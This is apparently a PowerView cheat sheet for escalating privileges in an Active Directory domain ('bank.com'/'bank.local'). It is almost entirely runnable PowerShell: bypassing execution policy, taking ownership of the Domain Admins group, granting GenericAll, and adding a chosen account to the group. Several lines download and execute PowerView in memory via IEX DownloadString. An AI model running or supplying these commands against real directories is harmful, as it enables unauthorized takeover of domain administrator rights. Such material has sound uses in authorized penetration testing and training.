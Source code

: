 # Power view cheat sheet

## Commands

```bash
powershell -ep bypass

Import-Module .\PowerView.ps1

Set-DomainObjectOwner -Identity 'Domain Admins' -OwnerIdentity 'goodboy'

Add-DomainObjectAcl -Rights 'All' -TargetIdentity "Domain Admins" -PrincipalIdentity "goodboy"

net group "domain admins" goodboy /add /domain
```

------------------------------------------------------------------------------------------------------------
## Import the AD module (requires RSAT or AD PowerShell tools)
```bash
Import-Module ActiveDirectory
```
## Now try the command again

```bash
$acl = Get-Acl "AD:\CN=Domain Admins,CN=Users,DC=bank,DC=com"
```

```bash
$groupDN = "LDAP://CN=Domain Admins,CN=Users,DC=bank,DC=com"

$acl = [System.DirectoryServices.DirectoryEntry]::new($groupDN).ObjectSecurity
```

## Create the AD: drive if missing
```bash
New-PSDrive -Name AD -PSProvider ActiveDirectory -Root "" -Server "bank.com"
```
## Now get ACL

```bash
$acl = Get-Acl "AD:\CN=Domain Admins,CN=Users,DC=bank,DC=com"
```

## 1. Take ownership

```bash
$group = [ADSI]"LDAP://CN=Domain Admins,CN=Users,DC=bank,DC=local"

$group.psbase.ObjectSecurity.SetOwner([System.Security.Principal.NTAccount]("bank\goodboy"))

$group.psbase.CommitChanges()
```
## 2. Add self to group
```bash
$group.Add("LDAP://CN=goodboy,CN=Users,DC=bank,DC=local")
```

# Key Explanations:

## Permission	Why Needed
- Modify owner	
- Modify permissions	
- Write properties	


---------------------------------------------------------------------------------
### with ✔ Modify permissions

IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1")

Get-Command -Module PowerView

. (If blocked by execution policy, run: Set-ExecutionPolicy Bypass -Scope Process -Force first)

# Verify if 'bb2' has WriteDACL on Domain Admins
Get-DomainObjectAcl -Identity "Domain Admins" | Where-Object { $_.SecurityIdentifier -eq (Get-DomainUser "bb2").SID } | Select-Object ActiveDirectoryRights

# Add GenericAll permission
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity "bb2" -Rights All -Verbose

# Add your account to the group
Add-DomainGroupMember -Identity "Domain Admins" -Members "bb2" -Verbose

# Verify
Get-DomainGroupMember -Identity "Domain Admins" | Select-Object MemberName
--------------------------------------------------------------------------------------------------------

## with permission  - write all properties ✔ is  only enabled

### if powerview  fails
$Group = [ADSI]"LDAP://CN=Domain Admins,CN=Users,DC=bank,DC=local"
$Group.Add("LDAP://CN=master,CN=Users,DC=bank,DC=local")

---------------------------------------------------------------------------
### with permissions - ✔ modify owner is only enabled

IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1")

or downloade the script and run by import

powershell -ep bypass
Import-Module .\powerview.ps1

Get-Command Set-DomainObjectOwner, Add-DomainObjectAcl

Set-ExecutionPolicy Bypass -Scope Process -Force

# 1. Take ownership
Set-DomainObjectOwner -Identity "Domain Admins" -OwnerIdentity "usermad" -Verbose

# 2. Grant yourself GenericAll
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity "usermad" -Rights All -Verbose

# 3. Add to group
Add-DomainGroupMember -Identity "Domain Admins" -Members "usermad" -Verbose